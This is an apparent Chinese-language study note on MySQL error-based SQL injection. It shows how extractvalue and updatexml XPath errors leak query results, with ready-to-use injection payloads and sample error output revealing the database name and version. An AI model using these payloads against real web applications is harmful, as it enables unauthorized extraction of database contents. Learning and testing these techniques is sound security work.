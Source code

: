 # 错误注入

## 一、原理

- 报错注入在没法用`union`联合查询时用，但前提还是不能过滤一些关键的函数。
- 报错注入就是利用了数据库的某些机制，人为地制造错误条件，使得查询结果能够出现在错误信息中。

## 二、Xpath语法错误

- 利用xpath语法错误来进行报错注入主要利用`extractvalue`和`updatexml`两个函数。

### 1.extractvalue函数

```
函数原型：extractvalue(xml_document,Xpath_string)
正常语法：extractvalue(xml_document,Xpath_string);
第一个参数：xml_document是string格式，为xml文档对象的名称
第二个参数：Xpath_string是xpath格式的字符串
作用：从目标xml中返回包含所查询值的字符串
```

- 第二个参数是要求符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里，因此可以利用。

  - pyload：`id='and(select extractvalue("anything",concat('~',(select语句))))`

    ```
    id='and(select extractvalue(1,concat('~',(select database()))))
    报错显示：1105 - XPATH syntax error: '~school'
    
    id='and(select extractvalue(1,concat(0x7e,@@version)))
    报错显示： 1105 - XPATH syntax error: '~8.0.36'
    ```

-  extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位

### 2.updatexml函数

```
函数原型：updatexml(xml_document,xpath_string,new_value)
正常语法：updatexml(xml_document,xpath_string,new_value)
第一个参数：xml_document是string格式，为xml文档对象的名称 第二个参数：xpath_string是xpath格式的字符串
第三个参数：new_value是string格式，替换查找到的负荷条件的数据 作用：改变文档中符合条件的节点的值
```

- 第二个参数跟extractvalue函数的第二个参数一样，因此也可以利用，且利用方式相同

  - payload：`id='and(select updatexml("anything",concat('~',(select语句())),"anything"))`

    ```
    'and(select updatexml(1,concat('~',(select database())),1))
    报错显示：1105 - XPATH syntax error: '~school'
    
    'and(select updatexml(1,concat(0x7e,version()),1))
    报错显示：1105 - XPATH syntax error: '~8.0.36'
    ```
